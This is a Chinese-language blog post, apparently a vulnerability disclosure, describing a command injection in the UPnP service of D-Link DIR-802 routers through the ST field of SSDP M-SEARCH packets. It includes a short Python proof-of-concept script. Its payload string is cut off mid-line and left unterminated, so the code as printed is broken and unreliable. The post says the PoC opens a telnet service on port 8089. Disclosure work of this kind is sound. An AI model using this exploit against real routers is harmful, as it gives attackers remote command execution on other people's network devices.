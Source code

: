 ```yaml
---
title: DIR-802 OS Command Injection
date: 2021-03-02 13:36:32
tags:
- D-LINK
- UPnP
- 固件模拟
categories:
- IOT
description: 提交个漏洞
---
```

### D-LINK DIR-802 命令注入漏洞
> by Cool
#### 漏洞已提交厂商
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10206
#### 漏洞类型
CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')

#### 受影响设备及软件版本
DIR-802 hardware revision Ax before v1.00b05
https://pmdap.dlink.com.tw/PMD/GetAgileFile?itemNumber=FIR1300450&fileName=DIR802_FW100b05.zip&fileSize=6163759.0;

#### 漏洞概要
DIR-802中存在一个命令注入漏洞，攻击者可以通过精心制作的M-SEARCH数据包向UPnP注入任意命令。

#### 漏洞详情
与CVE-2020-15893相似，在固件版本v-1.00b05之前的D-Link DIR-802 A1上发现了一个问题。默认情况下，端口1900上启用了通用即插即用（UPnP）。攻击者可以通过将有效负载注入SSDP M-SEARCH发现数据包的“搜索目标”（ST）字段来执行命令注入。

#### POC
```python
# coding: utf-8
import socket
import struct
buf = 'M-SEARCH * HTTP/1.1\r\nHOST:192.168.0.1:1900\r\nST:urn:schemas-upnp-org:service
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.connect(("192.168.0.1", 1900))
s.send(buf)
s.close()
```

#### 漏洞复现
使用firmadyne进行固件模拟，运行UPnP服务
<img src="https://res.cloudinary.com/dozyfkbg3/image/upload/v1614665628/cve/carbon.png">

攻击者可以是连接到路由器局域网内并且能够向UPnP端口发送请求的任何人。可以通过编写简单的python脚本将精心制作的数据包发送到特定的upnp端口，该脚本随后将作为精心制作的请求的一部分执行提供的命令。共享的POC将打开端口8089上的telnet服务。
<img src="https://res.cloudinary.com/dozyfkbg3/image/upload/v1614665899/cve/carbon_1.png">
